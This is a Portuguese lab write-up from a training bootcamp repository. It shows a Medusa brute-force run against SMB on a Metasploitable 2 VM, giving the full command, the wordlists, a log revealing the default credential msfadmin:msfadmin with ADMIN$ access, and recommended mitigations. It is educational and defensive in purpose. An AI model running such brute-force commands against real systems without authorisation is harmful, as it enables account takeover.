

# SMB-02 – Força Bruta em SMB (NLTM) – Vários usuários e senhas

## 📌 Objetivo
Realizar um ataque de **força bruta** contra o serviço **SMB** (protocolo `smbnt`) da máquina **Metasploitable 2** (IP `192.168.1.11`) usando a ferramenta **Medusa**. Diferente do cenário de password‑spraying, aqui testamos **combinações múltiplas de usuários e senhas** para demonstrar como credenciais fracas podem ser descobertas em serviços SMB.

## 🛠️ Pré‑requisitos
- Kali Linux (IP `192.168.1.10`) com Medusa instalado (`sudo apt install medusa`).
- Metasploitable 2 rodando o serviço SMB (`smbd`).
- Wordlists:
  - `users.txt` – lista de usuários (`user`, `msfadmin`, `service`).
  - `pass_small.txt` – lista curta de senhas (`Welcome123`, `msfadmin`, `password`, `123456`).

## 🚀 Comando executado
```bash
medusa -h 192.168.1.11 \
       -U users.txt \
       -P pass_small.txt \
       -M smbnt \
       -t 6 -v 2 \
       | tee smb02.log
```
- `-M smbnt` indica uso do módulo **SMB NTLM** (autenticação padrão do Windows).
- `-t 6` permite até 6 tentativas simultâneas.
- `-v 2` gera verbosidade suficiente para registrar cada tentativa.

## 📄 Resultados (log resumido)
O log completo está em `smb02.log`. Principais linhas de interesse:
```
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: user Password: Welcome123
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: user Password: msfadmin
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: user Password: password
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: user Password: 123456
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: msfadmin Password: 123456
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: msfadmin Password: password
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: service Password: password
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: msfadmin Password: Welcome123
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: msfadmin Password: msfadmin
2026-11-17 22:31:42 ACCOUNT FOUND: [smbnt] Host: 192.168.1.11 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: service Password: Welcome123
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: service Password: 123456
2026-11-17 22:31:42 ACCOUNT CHECK: [smbnt] Host: 192.168.1.11 User: service Password: msfadmin
```
A credencial **`msfadmin:msfadmin`** foi descoberta com sucesso, concedendo acesso ao share `ADMIN$`.

## 📸 Captura de tela


## 🛡️ Mitigações recomendadas
- **Desativar SMBv1** e garantir que apenas SMBv2/v3 estejam habilitados.
- **Aplicar políticas de senha forte** (mínimo 12 caracteres, complexidade).
- **Bloquear contas** após tentativas falhas (ex.: `pam_tally2`, `fail2ban`).
- Restringir **acesso ao SMB** via firewall a hosts confiáveis.
- Monitorar logs de autenticação (`/var/log/samba/` e Event Viewer) para detectar tentativas de força bruta.

---
**Referências**
- Medusa manual: `man medusa`.
- Metasploitable 2 – descrição dos serviços vulneráveis: https://github.com/rapid7/metasploitable2

*Este documento integra o repositório `bootcamp‑dio` e demonstra o cenário SMB‑02.*
